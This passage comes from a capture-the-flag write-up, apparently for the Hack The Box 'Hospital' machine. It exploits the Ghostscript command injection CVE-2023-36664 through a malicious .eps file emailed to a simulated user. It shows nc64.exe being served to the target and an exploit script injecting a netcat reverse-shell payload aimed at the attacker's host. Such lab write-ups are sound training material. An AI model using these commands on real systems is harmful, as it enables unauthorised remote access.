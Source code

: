<img src="/assets/img/2024-hospital/Send-netcat.png" alt="Send-netcat.png" class="auto-resize">

A few moments later, the `nc64.exe` binary was successfully retrieved from the server, indicating Dr. Brown has opened the malicious `.eps` file.

```bash
┌──(kali㉿kali)-[~/…/htb-machines/hospital/exploits/CVE-2023-36664-Ghostscript-command-injection]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.229.189 - - [07/Apr/2024 22:36:03] "GET /nc64.exe HTTP/1.1" 200 -
```

A  second payload is now crafted that will make use of the `nc64.exe` binary, and establish a reverse shell.

```bash
┌──(kali㉿kali)-[~/…/htb-machines/hospital/exploits/CVE-2023-36664-Ghostscript-command-injection]
└─$ python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe 10.10.14.2 1234 -e cmd.exe" --filename file.eps
[+] Payload successfully injected into file.eps.
```

The second payload is sent via email as well.

<img src="/assets/img/2024-hospital/email-payload.png" alt="email-payload.png" class="auto-resize">
